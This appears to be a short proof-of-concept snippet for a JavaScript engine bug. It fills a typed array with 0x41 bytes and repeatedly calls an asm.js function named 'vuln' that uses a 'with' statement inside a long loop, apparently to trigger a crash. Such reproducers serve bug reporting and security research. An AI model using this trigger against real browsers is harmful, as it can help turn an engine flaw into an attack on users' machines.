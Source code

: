 
var data = new Uint8Array(0x100);
for(i=0;i<0x100;i++)data[i]=0x41;
f = new Function("\
vuln=(function(){\
  \"use asm\";\
  function f(i){\
   for(i=0;i<0x10000;i++){\
     var a= new Uint8Array(data); \
    with(a[0]){};\
   }\
  }\
  return f;})();\
")
f()
vuln();
vuln();

